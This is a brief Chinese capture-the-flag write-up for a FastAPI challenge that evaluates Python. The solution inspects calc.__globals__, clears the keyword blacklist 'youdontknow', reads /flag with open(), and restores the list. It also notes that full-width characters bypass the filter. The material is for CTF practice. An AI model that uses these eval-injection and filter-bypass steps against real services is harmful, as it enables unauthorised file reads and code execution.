 ## 题目名称
fastapi2

## 题目描述
师傅们都太强了，这次决定加大力度。

hint: 为了防止偷看我把变量都改了名字，还把关键词的黑名单挪到了函数外。

## 出题/解题思路
```
list(calc.__globals__)
{
  "res": [
    "__name__",
    "__doc__",
    "__package__",
    "__loader__",
    "__spec__",
    "__annotations__",
    "__builtins__",
    "__file__",
    "__cached__",
    "Optional",
    "FastAPI",
    "Form",
    "uvicorn",
    "app",
    "hello",
    "youdontknow",
    "calc"
  ],
  "err": false
}

youdontknow
{
  "res": [
    "import",
    "open",
    "eval",
    "exec",
    "class",
    "'",
    "\"",
    "vars",
    "str",
    "chr"
  ],
  "err": false
}

youdontknow.clear()

open("/flag").read()

youdontknow=["import","open","eval","exec","class","'","\"","vars","str","chr"]

```

非预期：全角字符绕过一切关键词

## flag

